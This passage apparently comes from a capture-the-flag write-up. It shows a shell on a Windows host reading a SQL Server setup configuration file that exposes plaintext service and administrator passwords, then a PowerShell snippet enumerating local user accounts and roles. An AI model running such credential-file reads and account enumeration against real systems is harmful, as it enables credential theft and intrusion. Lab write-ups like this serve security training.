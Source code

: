 ```powershell
               Setup
    Favorites
    Links
    Music
    Pictures
    Saved Games
    Searches
    Videos
```

Database configuration:
```powershell
PS C:\users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> cat sql-Configuration.INI
cat sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

List all users:
```powershell
# Credits: https://superuser.com/a/608953

$computerName = "$env:computername"
$computer = [ADSI]"WinNT://$computerName,computer" 
$computer.psbase.Children | Where-Object { $_.psbase.schemaclassname -eq 'user' } | Format-Table Name, Description -autoSize 

Name                Description
----                -----------
{Administrator}     {Built-in account for administering the computer/domain}
{alex.hill}         {DJango Developer}
{carol.poland}      {IT Technician}
{d.jones}           {Software Developer}
{dthomas}           {System Analyzer}
{ereed}             {Site Reliability Engineer (SRE)}
{Ethan.l}           {DJango Developer}
{evelyn.adams}      {Active Directory Accounts Operator}
{Guest}             {Built-in account for guest access to the computer/domain}
{hking}             {}
```